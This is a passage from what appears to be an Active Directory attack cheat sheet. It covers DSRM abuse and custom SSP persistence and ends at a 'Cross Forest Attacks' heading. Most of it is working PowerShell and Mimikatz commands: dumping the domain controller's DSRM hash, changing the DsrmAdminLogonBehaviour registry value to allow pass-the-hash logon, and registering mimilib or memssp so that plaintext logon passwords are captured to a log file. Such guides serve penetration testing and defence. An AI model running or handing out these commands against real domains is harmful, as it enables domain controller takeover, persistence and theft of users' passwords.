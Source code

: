 #### **DSRM Abuse**

_WUT IS DIS?: Every DC has a local Administrator account, this accounts has the DSRM password which is a SafeBackupPassword. We can get this and then pth its NTLM hash to get local Administrator access to DC!_

```
#Dump DSRM password (needs DA privs):
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <DC's Name>

#This is a local account, so we can PTH and authenticate!
#BUT we need to alter the behaviour of the DSRM account before pth:
#Connect on DC:
Enter-PSSession -ComputerName <DC's Name>

#Alter the Logon behaviour on registry:
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD -Verbose

#If the property already exists:
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbose
```

Then just PTH to get local admin access on DC!

#### **Custom SSP**

_WUT IS DIS?: We can set our on SSP by dropping a custom dll, for example mimilib.dll from mimikatz, that will monitor and capture plaintext passwords from users that logged on!_

From powershell:

```
#Get current Security Package:
$packages = Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' | select -ExpandProperty  'Security Packages'

#Append mimilib:
$packages += "mimilib"

#Change the new packages name
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' -Value $packages
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name 'Security Packages' -Value $packages

#ALTERNATIVE:
Invoke-Mimikatz -Command '"misc::memssp"'
```

Now all logons on the DC are logged to -> C:\Windows\System32\kiwissp.log

### **Cross Forest Attacks**
